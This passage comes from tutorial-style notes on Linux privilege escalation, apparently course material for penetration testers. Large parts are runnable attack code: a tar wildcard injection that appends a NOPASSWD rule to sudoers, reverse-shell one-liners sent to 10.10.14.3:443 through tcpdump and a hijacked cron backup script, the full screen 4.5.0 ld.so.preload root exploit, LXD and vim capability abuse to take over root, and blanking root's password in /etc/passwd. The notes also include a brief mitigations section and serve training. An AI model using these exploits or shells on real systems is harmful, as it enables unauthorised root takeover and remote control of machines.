| ~?~          | Matches a single character.                                                                                            |
| ~[ ]~        | Brackets enclose characters and can match any single one at the defined position.                                      |
| ~~~          | A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory. |
| ~-~          | A hyphen within brackets will denote a range of characters.                                                            |

An example of how wildcards can be abused for privilege escalation is the ~tar~ command, a common program for creating/extracting archives. If we look at the man page for the ~tar~ command, we see the following:
#+BEGIN_SRC bash
  man tar

  <SNIP>
  Informative output
	 --checkpoint[=N]
		Display progress messages every Nth record (default 10).

	 --checkpoint-action=ACTION
		Run ACTION on each checkpoint.sh

#+END_SRC

The ~--checkpoint-action~ option permits an ~EXEC~ action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, ~--checkpoint=1~ and ~--checkpoint-action=exec=sh root.sh~ is passed to ~tar~ as command-line options. Let's see this in practice.

Consider the following cron job, which is set up to back up the ~/root~ directory's contents and create a compressed archive in ~/tmp~. The cron job is set to run every minute, so it is a good candidate for privilege escalation.
#+BEGIN_SRC bash
  #
  #
  mh dom mon dow command
  */01 * * * * cd /root && tar -zcf /tmp/backup.tar.gz *
#+END_SRC

We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.
#+BEGIN_SRC bash
  echo 'echo "user ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
  echo "" > "--checkpoint-action=exec=sh root.sh"
  echo "" > --checkpoint=1
#+END_SRC

We can check and see that the necessary files were created.
#+BEGIN_SRC bash
  ls -la

  total 56
  drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
  drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
  -rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
  -rw-rw-r--  1 user        user           1 Aug 31 23:11 --checkpoint=1
  -rw-rw-r--  1 user        user           1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
  drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
  drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
  -rw-rw-r--  1 user        user          60 Aug 31 23:11 root.sh
#+END_SRC

Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.
#+BEGIN_SRC bash
  sudo -l

Matching Defaults entries for cliff.moore on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cliff.moore may run the following commands on NIX02:
    (root) NOPASSWD: ALL
#+END_SRC

** Escaping Restricted Shell
A restricted shell is a type of shell that limits the user's ability to execute commands. In a restricted shell, the user is only allowed to execute a specific set of commands or only allowed to execute commands in specific directories.

~Exemple Restricted Shell~
1. *RBASH*
   [[https://www.gnu.org/software/bash/manual/html_node/The-Restricted-Shell.html][Restricted Bourne shell]](~rbash~) is a restricted version of the Bourne shell, a standard command-line interpreter in
   Linux which limits the user's ability to use certain features of the Bourne shell, such as changing directories,
   setting or modifying environment variables, and executing commands in other directories. It is often used to
   provide a safe and controlled environment for users who may accidentally or intentionally damage the system.
   Utils command:
   #+BEGIN_SRC bash
     compgen -c # List all possible usage command
     ssh user@server_name-t "bash --noprofile" #change rbash to bash
   #+END_SRC
   a) start bash without source'ing either ~/.bashrc or ~/.bash_profile 
   b) since such a shell wouldn't be a full login shell / have no tty attached, force ssh to attach a tty:

2. *RKSH*
   [[https://www.ibm.com/docs/en/aix/7.2?topic=r-rksh-command][Restricted Korn Shell]](~rksh~) is a restricted version of the Korn shell, another standard command-line interpreter.
   The ~rksh~ shell limits the user's ability to use certain features of the Korn shell, such as executing commands in
   other directories, creating or modifying shell functions, and modifying the shell environment.
3. *RZSH*
   [[https://manpages.debian.org/experimental/zsh/rzsh.1.en.html][Restricted Z shell]](~rzsh~) is a restricted version of the Z shell and is the most powerful and flexible command-line
   interpreter. The ~rzsh~ shell limits the user's ability to use certain features of the Z shell, such as running
   shell scripts, defining aliases, and modifying the shell environment.

~Escaping~
1. ~Command Injection~
   For example, we could use the following command to inject a pwd command into the argument of the ls command:
   #+BEGIN_SRC bash 
     ls -l `pwd`
   #+END_SRC
   This command would cause the ls command to be executed with the argument -l, followed by the output of the pwd
   command. Since the pwd command is not restricted by the shell, this would allow us to execute the pwd command and
   see the current working directory, even though the shell does not allow us to execute the pwd command directly.
2. ~Command Substitution~
   Another method for escaping from a restricted shell is to use command substitution. This involves using the
   shell's command substitution syntax to execute a command. For example, imagine the shell allows users to execute
   commands by enclosing them in backticks (`). In that case, it may be possible to escape from the shell by
   executing a command in a backtick substitution that is not restricted by the shell.
3. ~Command Chaining~
   In some cases, it may be possible to escape from a restricted shell by using command chaining. We would need to
   use multiple commands in a single command line, separated by a shell metacharacter, such as a semicolon (;) or a
   vertical bar (|), to execute a command. For example, if the shell allows users to execute commands separated by
   semicolons, it may be possible to escape from the shell by using a semicolon to separate two commands, one of
   which is not restricted by the shell.
4. ~Environment Variables~
   For escaping from a restricted shell to use environment variables involves modifying or creating environment
   variables that the shell uses to execute commands that are not restricted by the shell. For example, if the shell
   uses an environment variable to specify the directory in which commands are executed, it may be possible to escape
   from the shell by modifying the value of the environment variable to specify a different directory.
5. ~Shell Functions~
   In some cases, it may be possible to escape from a restricted shell by using shell functions. For this we can define and call shell functions that
   execute commands not restricted by the shell. Let us say, the shell allows users to define and call shell functions, it may be possible to escape
   from the shell by defining a shell function that executes a command.
* Permissions-based Privilege Escalation
** Special Permisions
*** ~setuid~
The ~Set User ID upon Execution (setuid)~ permission can allow a user to execute a program or script with the permissions of another user, typically with elevated privileges. The ~setuid~ bit appears as an ~s~
#+BEGIN_SRC bash
  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
#+END_SRC
It may be possible to reverse engineer the program with the SETUID bit set, identify a vulnerability, and exploit this to escalate our privileges. Many programs have additional features that can be leveraged to execute commands and, if the setuid bit is set on them, these can be used for our purpose.
*** ~setgiu~
The ~Set-Group-ID (setgid)~ permission is another special permission that allows us to run binaries as if we were part of the group that created them. These files can be enumerated using the following command:
#+BEGIN_SRC bash
  find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
#+END_SRC

This [[https://linuxconfig.org/how-to-use-special-permissions-the-setuid-setgid-and-sticky-bits][resource]] has more information about the setuid and setgid bits, including how to set the bits.
** Sudo Rights Abuse
Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the ~sudo~ command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in /etc/sudoers. When landing on a system, we should always check to see if the current user has any sudo privileges by typing ~sudo -l~. Sometimes we will need to know the user's password to list their ~sudo~ rights, but any rights entries with the ~NOPASSWD~ option can be seen without entering a password.
#+BEGIN_SRC bash
  sudo -l

  Matching Defaults entries for sysadm on NIX02:
	env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

  User sysadm may run the following commands on NIX02:
	(root) NOPASSWD: /usr/sbin/tcpdump
#+END_SRC

For example, if the sudoers file is edited to grant a user the right to run a command such as ~tcpdump~ per the following entry in the sudoers file: ~(ALL) NOPASSWD: /usr/sbin/tcpdump~ an attacker could leverage this to take advantage of a the *postrotate-command* option.

By specifying the ~-z~ flag, an attacker could use ~tcpdump~ to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script ~.test~ containing a reverse shell and execute it as follows:
#+BEGIN_SRC bash
  sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
#+END_SRC

Let's try this out. First, make a file to execute with the ~postrotate-command~, adding a simple reverse shell one-liner.
#+BEGIN_SRC bash
  cat /tmp/.test

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
#+END_SRC

*** Mitigations
[[https://wiki.ubuntu.com/AppArmor][AppArmor]] in more recent distributions has predefined the commands used with the ~postrotate-command~, effectively preventing command execution. Two best practices that should always be considered when provisioning ~sudo~ rights:
1. Always specify the absolute path to any binaries listed in the ~sudoers~ file entry. Otherwise, an attacker may be
   able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be
   executed when the command runs (i.e., if the ~sudoers~ entry specifies ~cat~ instead of ~/bin/cat~ this could likely be
   abused).
2. Grant ~sudo~ rights sparingly and based on the principle of least privilege. Does the user need full ~sudo~ rights?
   Can they still perform their job with one or two entries in the ~sudoers~ file? Limiting the privileged command that
   a user can run will greatly reduce the likelihood of successful privilege escalation.
** Privileged Groups
*** LXC/LXD
LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at ~/mnt/root~. Let's confirm group membership and use these rights to escalate to root.
#+BEGIN_SRC bash
  id
  
  uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
#+END_SRC

Unzip an image for axample ~Alpine~ (Ubuntu distibutions)
#+BEGIN_SRC bash
  unzip alpine.zip
#+END_SRC

Start the ~LXD initialization process~. Choose the defaults for each prompt. Consult this [[https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04][post]] for more information on each step.
#+BEGIN_SRC bash
  lxd init

  Do you want to configure a new storage pool (yes/no) [default=yes]? yes
  Name of the storage backend to use (dir or zfs) [default=dir]: dir
  Would you like LXD to be available over the network (yes/no) [default=no]? no
  Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

  /usr/sbin/dpkg-reconfigure must be run as root
  error: Failed to configure the bridge
#+END_SRC

~Import~ the local image
#+BEGIN_SRC bash
  lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
#+END_SRC

~Start~ a  privileged container with the ~security.privilege~ set to ~true~ to run container without a UID mapping making the root user in the container the same as the root user on the host
#+BEGIN_SRC bash
  lxc init alpine r00t -c security.privileged=true

  Creating r00t
#+END_SRC

~Mount~ the host file system
#+BEGIN_SRC bash
  lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
    
  Device mydev added to r00t
#+END_SRC

Finally, spawn a shell inside the container instance. We can now browse the mounted host file system as root.
#+BEGIN_SRC bash
  lxc start r00t
  lxc exec r00t /bin/sh
#+END_SRC

*** Docker
Placing a user in the docker group is essentially equivalent to root level access to the file system without requiring a password. Members of the docker group can spawn new docker containers. One example would be running the command ~docker run -v /root:/mnt -it ubuntu~. This command create a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse to the mounted directory and retrieve or add SSH keys for the root user.
*** Disk
Users within the disk group have full access to any devices contained within ~/dev~, such as ~/dev/sda1~, which is typically the main device used by the operating system. An attacker with these privileges can use ~debugfs~ to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.
*** ADM
Members of the adm group are able to read all logs stored in ~/var/log~. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.
#+BEGIN_SRC bash
  id
  
  uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
#+END_SRC
** Capabilities
Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.

*** Set Capability
#+BEGIN_SRC bash
  sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
#+END_SRC
| Capability           | Desciption                                                                                                             |
|----------------------+------------------------------------------------------------------------------------------------------------------------|
| cap_sys_admin        | Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.  |
|                      |                                                                                                                        |
| cap_sys_chroot       | Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible. |
|                      |                                                                                                                        |
| cap_sys_ptrace       | Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes. |
|                      |                                                                                                                        |
| cap_sys_nice         | Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted. |
|                      |                                                                                                                        |
| cap_sys_time         | Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways. |
|                      |                                                                                                                        |
| cap_sys_resource     | Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated. |
|                      |                                                                                                                        |
| cap_sys_module       | Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information. |
|                      |                                                                                                                        |
| cap_net_bind_service | Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions. |
|                      |                                                                                                                      |

Here are some examples of values that we can use with the ~setcap~ command, along with a brief description of what they do:
| Capability Values | Desciption                                                                                                             |
|-------------------+------------------------------------------------------------------------------------------------------------------------|
| ~=~                 | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable. |
|                   |                                                                                                                        |
| ~+ep~               | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. |
|                   |                                                                                                                        |
| ~+ei~               | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions. |
|                   |                                                                                                                        |
| ~+p~                | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it. |
|                   |                                                                                                                        |

Several Linux capabilities can be used to escalate a user's privileges to ~root~, including:
| Capability       | Desciption                                                                                                             |
|------------------+------------------------------------------------------------------------------------------------------------------------|
| cap_setuid       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the root user. |
|                  |                                                                                                                        |
| cap_setgid       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the root group. |
|                  |                                                                                                                        |
| cap_sys_admin    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the root user, such as modifying system settings and mounting and unmounting file systems. |
|                  |                                                                                                                        |
| cap_dac_override | Allows bypassing of file read, write, and execute permission checks.                                                   |
|                  |                                                                                                                      |

*** Enumerating Capabilities
It is important to note that these capabilities should be used with caution and only granted to trusted processes, as they can be misused to gain unauthorized access to the system. To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:
**** Enumeration
#+BEGIN_SRC bash
  find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

  /usr/bin/vim.basic cap_dac_override=eip
  /usr/bin/ping cap_net_raw=ep
  /usr/bin/mtr-packet cap_net_raw=ep
#+END_SRC
This one-liner uses the find command to search for all binary executables in the directories where they are typically located and then uses the -exec flag to run the getcap command on each, showing the capabilities that have been set for that binary.
**** Exploitation
If we gained access to the system with a low-privilege account, then discovered the ~dac_cap_override~ capability:
#+BEGIN_SRC bash
  getcap /usr/bin/vim.basic

  /usr/bin/vim.basic cap_dac_override=eip
#+END_SRC
For example, the ~/usr/bin/vim.basic~ binary is run without special privileges, such as with ~sudo~. However, because the binary has the ~cap_dac_override~ capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the ~cap_dac_override~ capability and perform tasks that require this capability.

Let us take a look at the ~/etc/passwd~ file where the user ~root~ is specified:
#+BEGIN_SRC bash
  cat /etc/passwd | head -n1

  root:x:0:0:root:/root:/bin/bash
#+END_SRC

We can use the ~cap_dac_override~ capability of the ~/usr/bin/vim~ binary to modify a system file:
#+BEGIN_SRC bash
  /usr/bin/vim.basic /etc/passwd
#+END_SRC

We also can make these changes in a non-interactive mode:
#+BEGIN_SRC bash
  echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd
  Matthheeww@htb[/htb]$ cat /etc/passwd | head -n1
  
  root::0:0:root:/root:/bin/bash
#+END_SRC

Now, we can see that the ~x~ in that line is gone, which means that we can use the command ~su~ to log in as root without being asked for the password.
* Service-based Privilege Escalation
** Vulnerable Services
Many services may be found, which have flaws that can be leveraged to escalate privileges. An example is the popular terminal multiplexer [[https://linux.die.net/man/1/screen][Screen]]. Version 4.5.0 suffers from a privilege escalation vulnerability due to a lack of a permissions check when opening a log file.
*Screen Version Identification*
#+BEGIN_SRC bash
  screen -v

  Screen version 4.05.00 (GNU) 10-Dec-16  
#+END_SRC

This allows an attacker to truncate any file or create a file owned by root in any directory and ultimately gain full root access.

*Privilege Escalation - Screen_Exploit.sh*
#+BEGIN_SRC bash
    ./screen_exploit.sh 

    ~ gnu/screenroot ~
    [+] First, we create our shell and library...
    [+] Now we create our /etc/ld.so.preload file...
    [+] Triggering...
    ' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
    [+] done!
    No Sockets found in /run/screen/S-mrb3n.

    # id
    uid=0(root) gid=0(root)
    groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(mrb3n)
#+END_SRC
The below script can be used to perform this privilege escalation attack:
#+BEGIN_SRC bash
  #!/bin/bash
  # screenroot.sh
  # setuid screen v4.5.0 local root exploit
  # abuses ld.so.preload overwriting to get root.
  # bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
  # HACK THE PLANET
  # ~ infodox (25/1/2017)
  echo "~ gnu/screenroot ~"
  echo "[+] First, we create our shell and library..."
  cat << EOF > /tmp/libhax.c
  #include <stdio.h>
  #include <sys/types.h>
  #include <unistd.h>
  #include <sys/stat.h>
  __attribute__ ((__constructor__))
  void dropshell(void){
      chown("/tmp/rootshell", 0, 0);
      chmod("/tmp/rootshell", 04755);
      unlink("/etc/ld.so.preload");
      printf("[+] done!\n");
  }
  EOF
  gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
  rm -f /tmp/libhax.c
  cat << EOF > /tmp/rootshell.c
  #include <stdio.h>
  int main(void){
      setuid(0);
      setgid(0);
      seteuid(0);
      setegid(0);
      execvp("/bin/sh", NULL, NULL);
  }
  EOF
  gcc -o /tmp/rootshell /tmp/rootshell.c -Wno-implicit-function-declaration
  rm -f /tmp/rootshell.c
  echo "[+] Now we create our /etc/ld.so.preload file..."
  cd /etc
  umask 000 # because
  screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
  echo "[+] Triggering..."
  screen -ls # screen itself is setuid, so...
  /tmp/rootshell
#+END_SRC
** Cron Job Abuse
Cron jobs can also be set run one time (such as on boot). They are typically used for administrative tasks such as running backups, cleaning up directories, etc. The ~crontab~ command can create a cron file, which will be run by the cron daemon on the schedule specified. When created, the cron file will be created in ~/var/spool/cron~ for the specific user that creates it. Each entry in the crontab file requires six items in the following order: minutes, hours, days, months, weeks, commands. For example, the entry ~0 */12 * * * /home/admin/backup.sh~ would run every 12 hours.

Certain applications create cron files in the ~/etc/cron.d~ directory and may be misconfigured to allow a non-root user to edit them.

*Find Cron in System*
#+BEGIN_SRC bash
  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

  /etc/cron.daily/backup
  /dmz-backups/backup.sh
  /proc
  /sys/fs/cgroup/memory/init.scope/cgroup.event_control

  <SNIP>
  /home/backupsvc/backup.sh
#+END_SRC

A quick look in the ~/dmz/backups~ directory shows what appears to be files created every three minutes. This seems to be a major misconfiguration
Perhaps the sysadmin meant to specify every three hours like ~0 */3 * * *~ but instead wrote ~*/3 * * * *~, which tells the cron job to run every three minutes. The second issue is that the ~backup.sh~ shell script is world writeable and runs as root.
#+BEGIN_SRC bash
  ls -la /dmz-backups/

  total 36
  drwxrwxrwx  2 root root 4096 Aug 31 02:39 .
  drwxr-xr-x 24 root root 4096 Aug 31 02:24 ..
  -rwxrwxrwx  1 root root  230 Aug 31 02:39 backup.sh
  -rw-r--r--  1 root root 3336 Aug 31 02:24 www-backup-2020831-02:24:01.tgz
  -rw-r--r--  1 root root 3336 Aug 31 02:27 www-backup-2020831-02:27:01.tgz
  -rw-r--r--  1 root root 3336 Aug 31 02:30 www-backup-2020831-02:30:01.tgz
  -rw-r--r--  1 root root 3336 Aug 31 02:33 www-backup-2020831-02:33:01.tgz
  -rw-r--r--  1 root root 3336 Aug 31 02:36 www-backup-2020831-02:36:01.tgz
  -rw-r--r--  1 root root 3336 Aug 31 02:39 www-backup-2020831-02:39:01.tgz
#+END_SRC

We can confirm that a cron job is running using [[https://github.com/DominicBreuker/pspy][pspy]], a command-line tool used to view running processes without the need for root privileges. We can use it to see commands run by other users, cron jobs, etc. It works by scanning [[https://en.wikipedia.org/wiki/Procfs][procfs]].
Let's run ~pspy~ and have a look. The ~-pf~ flag tells the tool to print commands and file system events and ~-i 1000~ tells it to scan profcs every 1000ms (or every second).
#+BEGIN_SRC bash
  ./pspy64 -pf -i 1000

  pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


       ██▓███    ██████  ██▓███ ▓██   ██▓
      ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
      ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
      ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
      ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
      ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
      ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
      ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
		     ░           ░ ░     
				 ░ ░     

  Config: Printing events (colored=true): processes=true | file-system-events=true ||| Scannning for processes every 1s and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
  Draining file system events due to startup...
  done
  2020/09/04 20:45:03 CMD: UID=0    PID=999    | /usr/bin/VGAuthService 
  2020/09/04 20:45:03 CMD: UID=111  PID=990    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
  2020/09/04 20:45:03 CMD: UID=0    PID=99     | 
  2020/09/04 20:45:03 CMD: UID=0    PID=988    | /usr/lib/snapd/snapd 

  <SNIP>

  2020/09/04 20:45:03 CMD: UID=0    PID=1017   | /usr/sbin/cron -f 
  2020/09/04 20:45:03 CMD: UID=0    PID=1010   | /usr/sbin/atd -f 
  2020/09/04 20:45:03 CMD: UID=0    PID=1003   | /usr/lib/accountsservice/accounts-daemon 
  2020/09/04 20:45:03 CMD: UID=0    PID=1001   | /lib/systemd/systemd-logind 
  2020/09/04 20:45:03 CMD: UID=0    PID=10     | 
  2020/09/04 20:45:03 CMD: UID=0    PID=1      | /sbin/init 
  2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 CMD: UID=0    PID=2201   | /bin/bash /dmz-backups/backup.sh 
  2020/09/04 20:46:01 CMD: UID=0    PID=2200   | /bin/sh -c /dmz-backups/backup.sh 
  2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
  2020/09/04 20:46:01 CMD: UID=0    PID=2199   | /usr/sbin/CRON -f 
  2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 CMD: UID=0    PID=2203   | 
  2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 CMD: UID=0    PID=2204   | tar --absolute-names --create --gzip --file=/dmz-backups/www-backup-202094-20:46:01.tgz /var/www/html 
  2020/09/04 20:46:01 FS:                 OPEN | /usr/lib/locale/locale-archive
  2020/09/04 20:46:01 CMD: UID=0    PID=2205   | gzip 
  2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
  2020/09/04 20:46:03 CMD: UID=0    PID=2206   | /bin/bash /dmz-backups/backup.sh 
  2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
  2020/09/04 20:46:03 FS:        CLOSE_NOWRITE | /usr/lib/locale/locale-archive
#+END_SRC
We can look at the shell script and append a command to it to attempt to obtain a reverse shell as root. If editing a script, make sure to ~ALWAYS~ take a copy of the script and/or create a backup of it. We should also attempt to append our commands to the end of the script to still run properly before executing our reverse shell command.
#+BEGIN_SRC bash
  cat /dmz-backups/backup.sh 

  #!/bin/bash
   SRCDIR="/var/www/html"
   DESTDIR="/dmz-backups/"
   FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
   tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
#+END_SRC

We can see that the script is just taking in a source and destination directory as variables. It then specifies a file name with the current date and time of backup and creates a tarball of the source directory, the web root directory. Let's modify the script to add a [[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet][Bash one-liner reverse shell]].
#+BEGIN_SRC bash
  #!/bin/bash
  SRCDIR="/var/www/html"
  DESTDIR="/dmz-backups/"
  FILENAME=www-backup-$(date +%-Y%-m%-d)-$(date +%-T).tgz
  tar --absolute-names --create --gzip --file=$DESTDIR$FILENAME $SRCDIR
  
  bash -i >& /dev/tcp/10.10.14.3/443 0>&1
#+END_SRC
We modify the script, stand up a local netcat ~listener~, and wait. Sure enough, within three minutes, we have a root shell!
#+BEGIN_SRC bash
  nc -lnvp 443
#+END_SRC
** LXD


~Containers~
Containers operate at the operating system level and virtual machines at the hardware level. Containers thus share an operating system and isolate application processes from the rest of the system, while classic virtualization allows multiple operating systems to run simultaneously on a single system.

~Linux Container~
Linux Containers (~LXC~) is an operating system-level virtualization technique that allows multiple Linux systems to run in isolation from each other on a single host by owning their own processes but sharing the host system kernel for them.
The ease of use of ~LXC~ is their most significant advantage compared to classic virtualization techniques.

~Linux Demon~
Linux Daemon (LXD) is similar in some respects but is designed to contain a complete operating system. Thus it is not an application container but a system container. Before we can use this service to escalate our privileges, we must be in either the ~lxc~ or ~lxd~ group. We can find this out with the following command:
#+BEGIN_SRC bash
  id

  uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
#+END_SRC

~Find Image~
*From here on*, there are now several ways in which we can exploit LXC/LXD. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves.
#+BEGIN_SRC bash
  cd ContainerImages
  ls

  ubuntu-template.tar.xz
#+END_SRC

~Import Image~
Such templates often do not have passwords, especially if they are uncomplicated test environments. These should be quickly accessible and uncomplicated to use.
If we are a little lucky and there is such a container on the system, it can be exploited. For this, we need to ~import this container~ as an image.
#+BEGIN_SRC bash
  lxc image import ubuntu-template.tar.xz --alias ubuntutemp
  lxc image list

  +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
  |                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
  +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
  | ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
  +-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
#+END_SRC

~Create and Exploit~
After verifying that this image has been successfully imported, we can initiate the image and configure it by specifying the ~security.privileged~ flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.
#+BEGIN_SRC bash
  lxc init ubuntutemp privesc -c security.privileged=true
  lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
#+END_SRC

Once we have done that, we can start the container and log into it. In the container, we can then go to the path we specified to access the ~resource~ of the host system as ~root~.
#+BEGIN_SRC bash
  lxc start privesc
  lxc exec privesc /bin/bash
  root@nix02:~# ls -l /mnt/root

  total 68
  lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
  drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
  drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
  drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
  drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
  drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
  lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
  lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
  lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
  lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
  drwx------   2 root root 16384 Oct  6  2021 lost+found
  drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
  drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
  drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
  dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
  drwx------   6 root root  4096 Sep 26 21:11 root
  drwxr-xr-x  28 root root   920 Oct 24 13:32 run
  lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
  drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
  drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
  dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
  drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
